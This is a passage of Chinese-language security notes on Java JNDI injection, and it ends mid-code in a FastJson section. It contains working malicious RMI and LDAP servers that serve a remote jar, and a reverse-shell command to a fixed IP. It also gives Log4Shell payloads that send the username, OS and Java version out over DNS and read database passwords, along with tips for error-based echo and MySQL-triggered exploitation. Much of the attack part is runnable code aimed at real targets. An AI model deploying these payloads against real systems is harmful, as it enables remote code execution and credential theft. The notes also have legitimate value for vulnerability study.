    package test;
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import javax.naming.Reference;
    import java.rmi.Naming;
    import java.rmi.registry.LocateRegistry;
    /**
     * Creator: yz
     * Date: 2019/12/25
     */
    public class RMIReferenceServerTest {
        public static void main(String[] args) {
            try {
                // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
                String url = "http://172.26.146.230:8000/base.jar";
                // 对象的工厂类名
                String className = "test.ReferenceObjectFactory";
                // 监听RMI服务端口
                LocateRegistry.createRegistry(1099);
                // 创建一个远程的JNDI对象工厂类的引用对象
                Reference reference = new Reference(className, className, url);
                // 转换为RMI引用对象
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
                // 绑定一个恶意的Remote对象到RMI服务
                Naming.bind("rmi://127.0.0.1:1099/Rmitest", referenceWrapper);
                System.out.println("RMI服务启动成功,服务地址:" + "rmi://127.0.0.1:1099/Rmitest");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
  - 启动程序：`RMI服务启动成功,服务地址:rmi://127.0.0.1:1099/Rmitest`
  - 将ReferenceObjectFactor类打包成jar文件传给攻击机，攻击机在jar文件所在目录利用python启动一个网站 `python -m http.server`，使得可以利用url访问这个jar文件。[idea如何打包jar](https://cloud.tencent.com/developer/article/1764737)

    ```shell
    (base) root in /mnt/c/Users/xxxx/OneDrive/code/JAVA/out/artifacts/base_jar λ python -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```
  - 通过JNDI调用RMI的客户端代码

    ```java
    package test;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    /**
     * Creator: yz
     * Date: 2019/12/25
     */
    public class RMIReferenceClientTest {
        public static void main(String[] args) {
            try {
    //       // 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
    //       System.setProperty("java.rmi.server.useCodebaseOnly", "false");
    //       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
                InitialContext context = new InitialContext();
                // 获取RMI绑定的恶意ReferenceWrapper对象
                Object obj = context.lookup("rmi://127.0.0.1:1099");
                System.out.println(obj);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    
    ```
  - 客户端执行成功后,可以在攻击机的nc中看到来自客户端的 `curl`请求，也就产生了RCE：

    ```http
    Listening on xxx 9000
    Connection received on xxx.mshome.net 28634
    GET / HTTP/1.1
    Host: 172.26.146.230:9000
    User-Agent: curl/7.55.1
    Accept: */*
    ```

- **创建恶意的LDAP服务**

  - `LDAP`和 `RMI`同理，测试方法也同上。启动LDAP服务端程序后我们会在 `LDAP`请求中返回一个含有恶意攻击代码的对象工厂的远程 `jar`地址，客户端会加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的 `getObjectInstance`方法从而触发该方法中的恶意 `RCE`代码。

    ```java
    package test;
    
    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;
    import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import java.net.InetAddress;
    public class LDAPReferenceServerTest {
        // 设置LDAP服务端口
        public static final int SERVER_PORT = 3890;
        // 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
        public static final String BIND_HOST = "127.0.0.1";
        // 设置一个实体名称
        public static final String LDAP_ENTRY_NAME = "ldaptest";
        // 获取LDAP服务地址
        public static String LDAP_URL = "ldap://" + BIND_HOST + ":" + SERVER_PORT + "/" + LDAP_ENTRY_NAME;
        // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
        public static final String REMOTE_REFERENCE_JAR = "http://172.26.146.230:8000/base.jar";
        // 设置LDAP基底DN
        private static final String LDAP_BASE = "dc=javasec,dc=org";
        public static void main(String[] args) {
            try {
                // 创建LDAP配置对象
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                // 设置LDAP监听配置信息
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
                        ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault())
                );
                // 添加自定义的LDAP操作拦截器
                config.addInMemoryOperationInterceptor(new OperationInterceptor());
                // 创建LDAP服务对象
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
                // 启动服务
                ds.startListening();
                System.out.println("LDAP服务启动成功,服务地址：" + LDAP_URL);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        private static class OperationInterceptor extends InMemoryOperationInterceptor {
            @Override
            public void processSearchResult(InMemoryInterceptedSearchResult result) {
                String base  = result.getRequest().getBaseDN();
                Entry  entry = new Entry(base);
                try {
                    // 设置对象的工厂类名
                    String className = "test.ReferenceObjectFactory";
                    entry.addAttribute("javaClassName", className);
                    entry.addAttribute("javaFactory", className);
                    // 设置远程的恶意引用对象的jar地址
                    entry.addAttribute("javaCodeBase", REMOTE_REFERENCE_JAR);
                    // 设置LDAP objectClass
                    entry.addAttribute("objectClass", "javaNamingReference");
                    result.sendSearchEntry(entry);
                    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
                } catch (Exception e1) {
                    e1.printStackTrace();
                }
            }
        }
    }
    ```
  - unboundid依赖的maven配置

    ```
    <dependency>
        <groupId>com.unboundid</groupId>
        <artifactId>unboundid-ldapsdk</artifactId>
        <version>3.2.0</version>
    </dependency>
    ```
  - 客户端代码用上面rmi的改下url和安全配置就行，攻击机继续监听9000端口。

    ```java
    package test;
    
    import javax.naming.Context;
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    /**
     * Creator: yz
     * Date: 2019/12/27
     */
    public class LDAPReferenceClientTest {
        public static void main(String[] args) {
            try {
           // 测试时如果需要允许调用LDAP远程引用对象加载请取消如下注释
           System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
                Context ctx = new InitialContext();
                // 获取RMI绑定的恶意ReferenceWrapper对象
                Object obj = ctx.lookup("ldap://127.0.0.1:3890/ldaptest");
                System.out.println(obj);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    ```
  - nc收到客户端发来的curl请求，成功RCE

- **jndi利用工具：**

  - **[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit)** ：可以快速搭建好RMI和LDAP服务并且携带命令执行的jar文件。这样就不用自己写payload了。
  - `java -jar ./JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -i >& /dev/tcp/192.168.50.211/12345 0>&1"`

### 高版本 JDK 的绕过

> https://paper.seebug.org/942/

所以对于Oracle JDK 11.0.1、8u191、7u201、6u211或者更高版本的JDK来说，默认环境下之前这些利用方式都已经失效。然而，我们依然可以进行绕过并完成利用。两种绕过方法如下：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。

### 中间件的JNDI漏洞


#### log4j

> panda师傅
>
> https://github.com/jas502n/Log4j2-CVE-2021-44228

- 基础
  - 2021 年 12 ⽉ 9 号,著名的Apache Log4j 项⽬被爆存在远程代码执⾏漏洞， 且利⽤简单，使用JNDI注入，影响危害巨⼤，光是引⼊了 log4j2 依赖的组件都是数不清，更别提项⽬本身可能存 在的⻛险了.
  - 本质上还是和JNDI漏洞利用一样

- 漏洞范围：

  - 2.0—2.15.0 ：CVE-2021-44228
  - 2.15.0-rc1:
    - `PatternLayout.toSerializable`方法发生了变化,其中的 `formatters`属性的变化导致了 `${}`不会被处理。这样需要用户自己修改lookup的配置才能绕过。
      - 或者利用配置文件会解析用户的输入，走另外的函数。业务使用了ctx在日志规则中打印线程上下文中对应key，如：apiVersion,ctx中对应的key(如apiVersion)必须来自外部输入，且未做安全校验。
    - 同时最后 `JndiManager.lookup`触发漏洞的地方进行了修改，设置了host白名单。可通过url加空格，直接不进入这个函数。
  - 2.15.0-rc2：修复了利用在url加入空格的漏洞。需要业务的DSN被污染，能够将//127.0.0.1#evilhost.com:1389/a解析到evilhost.com域名下去
  - 2.16.0：默认关闭了Jndi

##### 2.0-2.15.0（CVE-2021-44228）

- 根据官方[修复补丁](https://issues.apache.org/jira/projects/LOG4J2/issues/LOG4J2-3201?filter=allissues)可以明确知道，是通过 jndi 中 LDAP 注⼊的⽅式实现了 RCE，然后查看其补丁的更改记录，可以发现对 lookup 函数进⾏了修改判断，知道了漏洞类型，那么就好⼊⼿了，⾸先翻阅官⽅⽂档中关于 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html) 的说明：

- 关于 JNDI lookup官⽅⽂档有说明：

    - ```
        Jndi Lookup
        As of Log4j 2.17.0 JNDI operations require that log4j2.enableJndiLookup=true be set as a system property or the corresponding environment variable for this lookup to function. See the enableJndiLookup system property.
        
        The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.
        
        The JNDI Lookup only supports the java protocol or no protocol (as shown in the example below).
        
        <File name="Application" fileName="application.log">
          <PatternLayout>
            <pattern>%d %p %c{1.} [%t] $${jndi:logging/context-name} %m%n</pattern>
          </PatternLayout>
        </File>
        Java's JNDI module is not available on Android.
        ```

- JndiLookup 允许通过 JNDI 检索变量，然后给了示例，使用格式

    - ```
        ${jndi:JNDIContent}
        ```

    - 既然明确了 lookup 是触发漏洞的点，并且找到了可以触发 lookup 的⽅法 ，那么就可以找⼊⼝ 点，只要找到⼊⼝点，然后传⼊ jndi 调⽤ ldap 的⽅式，就能够实现 RCE。 

    - 那么，哪⼀个⼊⼝点可以传⼊ ${jndi:JNDIContent} 呢？

    -  没错了，就是 LogManager.getLogger().xxxx() ⽅法 在log4j2中，共有8 个⽇志级别，可以通过 LogManager.getLogger() 调⽤记录⽇志的⽅法如 下：

        - ```
            LogManager.getLogger().error()
            LogManager.getLogger().fatal()
            LogManager.getLogger().trace()
            LogManager.getLogger().traceExit()
            LogManager.getLogger().traceEntry()
            LogManager.getLogger().info()
            LogManager.getLogger().warn()
            LogManager.getLogger().debug()
            LogManager.getLogger().log()
            LogManager.getLogger().printf()
            ```

    - 上述列表中， error() 和 fatal() ⽅法可默认触发漏洞，其余的⽅法需要配置⽇志级别才可以触 发漏洞。因为在 logIfEnabled ⽅法中，对当前⽇志等级进⾏了⼀次判断：

        - ```
                @Override
                public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message) {
                    if (isEnabled(level, marker, message)) {
                        logMessage(fqcn, level, marker, message);
                    }
                }
            ```

    - **只有当当前事件的⽇志等级⼤于等于设置的⽇志等级时，才会符合条件，进⼊ logMessage() ⽅法**

        - ```java
            public boolean isEnabled(final Level level, final Marker marker, final String message) {
                    return privateConfig.filter(level, marker, message);
            }
                
            boolean filter(final Level level, final Marker marker, final String msg) {
                        final Filter filter = config.getFilter();
                        if (filter != null) {
                            final Filter.Result r = filter.filter(logger, level, marker, msg);
                            if (r != Filter.Result.NEUTRAL) {
                                return r == Filter.Result.ACCEPT;
                            }
                        }
                        return level != null && intLevel >= level.intLevel();
            
            ```

    - 项目设置log4的日志等级是在resources目录下的**log4j2.xml**配置文件中

        - ```xml
            <?xml version="1.0" encoding="UTF-8"?>
            <Configuration status="WARN">
                <Appenders>
                    <Console name="Console" target="SYSTEM_OUT">
                        <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
                    </Console>
                </Appenders>
                <Loggers>
                    <Root level="info">
                        <AppenderRef ref="Console"/>
                    </Root>
                </Loggers>
            </Configuration>
            ```

- 环境搭建

    - ```
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.13.3</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.13.3</version>
        </dependency>
        ```

    - ```java
        
        
        ```

- 分析一波调用链

    - 断点下到Jndimanager#lookup方法

        - ```
            at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
            	  at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
            	  at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:223)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1116)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1038)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor..........................................................
            
            ```

    - 核心调用

        - ```
            at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
            	  at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
            	  at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:223)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1116)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1038)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
            	  at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
            	  at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:132)
            	  at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
            	  at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:345)
            	  at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:244)
            	  at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:229)
            	  at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:59)
            	  at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:197)
            	  at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:190)
            	  at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:181)
            	  at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
            	  at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
            	  at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
            	  at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
            	  at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:543)
            	  at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:502)
            	  at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:485)
            	  at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:460)
            	  at org.apache.logging.log4j.core.config.DefaultReliabilityStrategy.log(DefaultReliabilityStrategy.java:63)
            	  at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
            ```

    - ```
            protected void log(final Level level, final Marker marker, final String fqcn, final StackTraceElement location,
                final Message message, final Throwable throwable) {
                final ReliabilityStrategy strategy = privateConfig.loggerConfig.getReliabilityStrategy();
                if (strategy instanceof LocationAwareReliabilityStrategy) {
                    ((LocationAwareReliabilityStrategy) strategy).log(this, getName(), fqcn, location, marker, level,
                        message, throwable);
                } else {
                    strategy.log(this, getName(), fqcn, marker, level, message, throwable);
                }
            }
        ```

    - AwaitCompletionReliabilityStrategy.class#log方法会首先读取配置文件

        - ```java
                public void log(final Supplier<LoggerConfig> reconfigured, final String loggerName, final String fqcn,
                    final StackTraceElement location, final Marker marker, final Level level, final Message data,
                    final Throwable t) {
                    final LoggerConfig config = getActiveLoggerConfig(reconfigured);
                    try {
                        config.log(loggerName, fqcn, location, marker, level, data, t);
                    } finally {
                        config.getReliabilityStrategy().afterLogEvent();
                    }
                }
            ```

    - 进入processLogEvent方法只会调用callAppenders方法

        -  ```
                 private void processLogEvent(final LogEvent event, final LoggerConfigPredicate predicate) {
                     event.setIncludeLocation(isIncludeLocation());
                     if (predicate.allow(this)) {
                         callAppenders(event);
                     }
                     logParent(event, predicate);
                 }
             ```

    - callAppenders方法判断配置文件中日志输出位置，一般是控制台以及输出到文件，这里只配置了控制台。

        - ```
                protected void callAppenders(final LogEvent event) {
                    final AppenderControl[] controls = appenders.get();
                    //noinspection ForLoopReplaceableByForEach
                    for (int i = 0; i < controls.length; i++) {
                        controls[i].callAppender(event);
                    }
                }
            ```

    - org.apache.logging.log4j.core.config.AppenderControl#callAppender会调用callAppenderPreventRecursion方法，主要是防止递归调用。

        - ```
                public void callAppender(final LogEvent event) {
                    if (shouldSkip(event)) {
                        return;
                    }
                    callAppenderPreventRecursion(event);
                }
                
            ```

    - 先进行防止递归调用，然后调用**callAppender0**方法

        - ```java
                private void callAppenderPreventRecursion(final LogEvent event) {
                    try {
                        recursive.set(this);
                        callAppender0(event);
                    } finally {
                        recursive.set(null);
                    }
                }
            ```

    - callAppender0方法首先确保Appender启动，然后调用tryCallAppender

        - ```
                private void callAppender0(final LogEvent event) {
                    ensureAppenderStarted();
                    if (!isFilteredByAppender(event)) {
                        tryCallAppender(event);
                    }
                }
            ```

    - tryCallAppender会追加改**event，其中包含log日志。**

        - ```
                private void tryCallAppender(final LogEvent event) {
                    try {
                        appender.append(event);
                    ............................
            ```

    - AbstractOutputStreamAppender.class#append会调用tryAppend方法

        - ```
                public void append(final LogEvent event) {
                    try {
                        tryAppend(event);
                    } catch (final AppenderLoggingException ex) {
                        error("Unable to write to stream " + manager.getName() + " for appender " + getName(), event, ex);
                        throw ex;
                    }
                }s
            ```

    - AbstractOutputStreamAppender.class#tryAppend方法会调用directEncodeEvent方法漏洞触发点

        - ```
                private void tryAppend(final LogEvent event) {
                    if (Constants.ENABLE_DIRECT_ENCODERS) {   //默认为truee
                        directEncodeEvent(event);
                    } else {
                        writeByteArrayToManager(event);
                    }
                }
            ```

    - AbstractOutputStreamAppender.class#directEncodeEvent 。Layout是配置文件写的格式，获取格式之后，会将poc用按照格式进行解码。

        - ```java
                protected void directEncodeEvent(final LogEvent event) {
                    getLayout().encode(event, manager);
                    if (this.immediateFlush || event.isEndOfBatch()) {
                        manager.flush();
                    }
                }
            ```

    - org.apache.logging.log4j.core.layout.PatternLayout.class#encode会序列化，将**event**序列化

        - ```
                public void encode(final LogEvent event, final ByteBufferDestination destination) {
                    if (!(eventSerializer instanceof Serializer2)) {
                        super.encode(event, destination);
                        return;
                    }
                    final StringBuilder text = toText((Serializer2) eventSerializer, event, getStringBuilder());
                    final Encoder<StringBuilder> encoder = getStringBuilderEncoder();
                    encoder.encode(text, destination);
                    trimToMaxSize(text);
                }
            ```

    - 进入toText方法直接调用序列化方法

        - ```java
                private StringBuilder toText(final Serializer2 serializer, final LogEvent event,
                        final StringBuilder destination) {
                    return serializer.toSerializable(event, destination);
                }
            ```

    - this.formatters.length = 11 ，看堆栈发现是`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`的方法，可以发现是第九个

        - 

    - 一直调用到MessagePatternConverter#format

    - 一直调用到lookup#substitute

        - 会递归解析`${}`表达式

        - 开始使用prefixMatcher对象来匹配jndi字符。

            - 

            - 以`${`开头

        - 用suffixMathcer对象来匹配后缀

            - 

            - 以`}`结尾

    - 这里可以看出来为什么payload有**${}**字符串了，

    - 进入replace方法跳转到StrSubstitutor.class#replace

        - ```
                public AbstractStringBuilder replace(int start, int end, String str) {
                    if (start < 0)
                        throw new StringIndexOutOfBoundsException(start);
                    if (start > count)
                        throw new StringIndexOutOfBoundsException("start > length()");
                    if (start > end)
                        throw new StringIndexOutOfBoundsException("start > end");
            
                    if (end > count)
                        end = count;
                    int len = str.length();
                    int newCount = count + len - (end - start);
                    ensureCapacityInternal(newCount);
            
                    System.arraycopy(value, end, value, start + len, count - end);
                    str.getChars(value, start);
                    count = newCount;
                    return this;
                }
            ```

        - 可以发现为什么有那么多畸形的payload

    - 进入StrSubstitutor.class#resolveVariable执行lookup操作,传入给resolveVariable方法参数值可以发现恶意payload已经传进来了。

        - ```
                protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                                 final int startPos, final int endPos) {
                    final StrLookup resolver = getVariableResolver();
                    if (resolver == null) {
                        return null;
                    }
                    return resolver.lookup(event, variableName);
                }
            ```

    - resolver中有一个strLookupMap，可以发现执行各种协议，以及自定义的lookup方法。

        - 

    - 进入lookup方法到\org\apache\logging\log4j\core\lookup\Interpolator.class#lookup方法

        - 进入lookup方法到\org\apache\logging\log4j\core\lookup\Interpolator.class#lookup方法，首先会判断**env:OS**字符串的前缀长度env。

        - Map会获取对应的lookup类，如果是env就是EnvironmentLookup类，JNDI就是JndiLookup，最终会调用对应方法，

        - ```java
                public String lookup(final LogEvent event, String var) {
                    if (var == null) {
                        return null;
                    }
            
                    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
                    if (prefixPos >= 0) {
                        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
                        final String name = var.substring(prefixPos + 1);
                        final StrLookup lookup = strLookupMap.get(prefix);
                        if (lookup instanceof ConfigurationAware) {
                            ((ConfigurationAware) lookup).setConfiguration(configuration);
                        }
                        String value = null;
                        if (lookup != null) {
                            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
                        }
            
                        if (value != null) {
                            return value;
                        }
                        var = var.substring(prefixPos + 1);
                    }
                    if (defaultLookup != null) {
                        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
                    }
                    return null;
                }
            ```

        -  取出`:`之前的字符，`strLookupMap.get(prefix)`,查找对应的StrLookup对象。JNDIlookup类会调用jndiManager#lookup方法

            - ```
                    public String lookup(final LogEvent event, final String key) {
                        if (key == null) {
                            return null;
                        }
                        final String jndiName = convertJndiName(key);
                        try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
                            return Objects.toString(jndiManager.lookup(jndiName), null);
                        } catch (final NamingException e) {
                            LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
                            return null;
                        }
                    }
                ```

        - 最终调用的是下面的lookup方法导致JNDI的RCE，Context类型是java.naming.context。Context类在jdk也是发起JNDI请求**“漏洞”**类。

            - ```
                  public <T> T lookup(String name) throws NamingException {
                        return this.context.lookup(name);
                    }
                 
              ```

##### 使用了log4j2的产品

- 

##### 利用姿势

> https://xz.aliyun.com/t/10659
>
> https://github.com/jas502n/Log4j2-CVE-2021-44228

- 实战怎么找利用点
    - 除了常见的header，还有就是配合被动扫描替换每个参数

- dnslog确定用户名、操作系统以及Java的版本

    - ```
        ${jndi:ldap://${env:USERNAME}.${env:OS}.${sys:java.version}.dnslog.cn}
        ```

    - `DNS`协议是属于`JNDI`协议的，所以我们也可以利用`DNS`协议来带一些信息

        - ```
            ${jndi:dns://xxxxx:8090/${java:version}}
            ```

        - 在自己的`VPS`上`nc -luvvp 8090`即可收到信息

- Sys和Env中包含着关键信息

    - 信息来自于`System.getProperty()`和`System.getenv()`
    - 具体能获取哪些信息可以参考某位师傅的仓库：https://github.com/jas502n/Log4j2-CVE-2021-44228

- Bundle lookup获取数据库密码

    - 条件：

        - 这种情况**略显鸡肋**，需要手动排除`SpringBoot`自带的日志依赖并加入`Log4j2`的依赖（这种情况可能不多）

        - ```xml
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter</artifactId>
                <exclusions>
                    <exclusion>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-logging</artifactId>
                    </exclusion>
                </exclusions>
            </dependency>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-log4j2</artifactId>
            </dependency>
            ```

    - 通过`${bundle:application:spring.datasource.password}`可以直接拿到数据库密码

    - 嵌入标签即可带到`Dnslog`

- 不出网回显信息

    - 这是一种报错回显，在`log`整体流程中有下面这样一部

    - 在`tryCallAppender`方法中`catch`了`RuntimeException`

        - ```
            private void tryCallAppender(final LogEvent event) {
                try {
                    appender.append(event);
                } catch (final RuntimeException error) {
                    handleAppenderError(event, error);
                } catch (final Exception error) {
                    handleAppenderError(event, new AppenderLoggingException(error));
                }
            }
            ```

    - 如果配置了`ignoreExceptions`选项，就会直接抛出来

        - ```
            private void handleAppenderError(final LogEvent event, final RuntimeException ex) {
                appender.getHandler().error(createErrorMsg("An exception occurred processing Appender "), event, ex);
                if (!appender.ignoreExceptions()) {
                    throw ex;
                }
            }
            ```

        - 在`log4j2.xml`中开启配置：`ignoreExceptions="false"`

            - ```
                <?xml version="1.0" encoding="UTF-8"?>
                <Configuration status="warn" name="MyApp" packages="">
                    <Appenders>
                        <Console name="STDOUT" target="SYSTEM_OUT" ignoreExceptions="false">
                            <PatternLayout pattern="%m%n"/>
                        </Console>
                    </Appenders>
                    <Loggers>
                        <Root level="error">
                            <AppenderRef ref="STDOUT"/>
                        </Root>
                    </Loggers>
                </Configuration>
                ```

        - **在实际的环境中，有开启这个配置的概率**，参考`apache`官方的描述大致意思是在`FailoverAppender`情况下必须设置该选项为`false`

        - 某些情况下开发者想让错误报出来便于调试，也会故意开启这个选项

    - 接下来就是制造`RuntimeException`

        - 例如字符串转数字中有一个`NumberFormatException`异常，它父类的父类是`RuntimeException`

            - ```
                public class NumberFormatException extends IllegalArgumentException {}
                public class IllegalArgumentException extends RuntimeException {}
                ```

    - `JndiManager.lookup`中`name`是`protocal://host:port/path`
        - 其中`port`本该是`int`如果给它无法转`int`的字符串就会抛出这里的信息
        - 又联想到`${}`是支持嵌套标签的，这里嵌入真正想要得到的结果，即可抛出执行结果
        - 根据这个思路，成功在`Tomcat`项目中回显执行结果（例如这里的`${java:version}`）
    - 能够回显的`Payload`是这样：`${jndi:ldap://x.x.x.x:${java:version}/xxx}`

**骚操作**

- 利用4字节UTF-8字符触发Mysql报错，进而打印日志，触发log4j漏洞。https://mp.weixin.qq.com/s/mEwljigkkXk-y1ik7au_CQ
    - 也就是说，如果在执行如下SQL时产生SQLException，并且用户名username携带了${jndi:ldap://x.x.x.x/exp}的话，即可完成log4j2漏洞的利用：
    - 提到SQLException，最容易想到的就是数据库连接异常、报错注入。数据库连接不是用户可以控制的，至于报错注入，因为这里是用了预编译处理，很明显updatexml类的函数也没办法使用。
    - 因为这里是普通的查询，尝试fuzz看看有什么思路：
    - 发现当查询内容中包含emoji的时候，MySQL数据库会触发ERROR:
    - 查阅了一下相关资料，主要是编码不统一的问题：
        - https://dev.mysql.com/doc/connector-j/5.1/en/connector-j-reference-charsets.html
        - https://segmentfault.com/q/1010000023488811
    - 结合上面简单的分析尝试，直接在登录框使用emoji表情+poc进行登录：
        - 
- 结合上述的案例，其实通过日志记录SqlException的情况还是蛮多的。除了特定场景下MySQL中利用emoji编码差异触发外，还可以结合具体情况来改进常规的log4j2检测poc，覆盖db2、Oracle等更多的场景，增加漏洞的检出率。

##### 绕waf

> https://github.com/woodpecker-appstore/log4j-payload-generator

#### FastJson 反序列化JNDI注入示例：

> https://xz.aliyun.com/t/7027
>
> https://github.com/safe6Sec/Fastjson

##### FastJson基础

- FastJson 是阿⾥巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，⽀持将 Java Bean 序列 化为 JSON 字符串，也可以**从JSON字符串反序列化到 Java Bean** 。

- fastjson的序列化和java的序列化机制是不一样的，fastjson的序列化是自己实现的。

- 近⼏年以来，Fastjson爆出了⼤量的反序列化漏洞，这类对于JavaBean的反序列化漏洞，原理基本⼀致，**都是在 get 、 set ⽅法内存在危险函数，在反序列化触发这些⽅法时造成RCE**。

**fastjson序列化函数**

```java
#序列化函数，用来序列化列表，对象等，转化成json字符串
JSON.toJSONString(list/user); 

#json字符串转json对象，绑定式的，字符串要和user类匹配，所以不存在fastjson反序列化漏洞
JSON.parseObject(str2,User.class); 

#自省的，通过json字符串传递的信息，反序列化任意一个类，存在fastjson反序列化漏洞
JSON.parseObject(str2); 
#和parseObject的区别在于，反序列化时会少触发类的getter方法
JSON.parse(str2); 
```

**json对象**

- 该类中使⽤⽆参数构造函数初始化成员，包含 16 个成员,分别为 String 、 Properties 两种类型，并 被 public 、 private 修饰的，并且对应的 get 、 set ⽅法有所不同形成对⽐，以探究具体的调⽤情 况

```java
package org.example;

import java.util.Properties;
public class FastJsonUser {
    public String name1; //public且有get set
    public String name2; //public且有get
    public String name3; //public且有set
    public String name4; //仅仅public
    private String age1; //private且有get set
    private String age2; //private且有get
    private String age3; //private且有set
    private String age4; //仅仅private
    public Properties prop1_1; //public且有get set
    public Properties prop1_2; //public且有get
    public Properties prop1_3; //public且有set
    public Properties prop1_4; //仅仅public
    private Properties prop2_1; //private且有get set
    private Properties prop2_2; //private且有get
    private Properties prop2_3; //private且有set
    private Properties prop2_4; //仅仅private
    @Override
    public String toString() {
        return "User{" +
                "name1='" + name1 + '\'' +
                ", name2='" + name2 + '\'' +
                ", name3='" + name3 + '\'' +
                ", name4='" + name4 + '\'' +
                ", age1='" + age1 + '\'' +
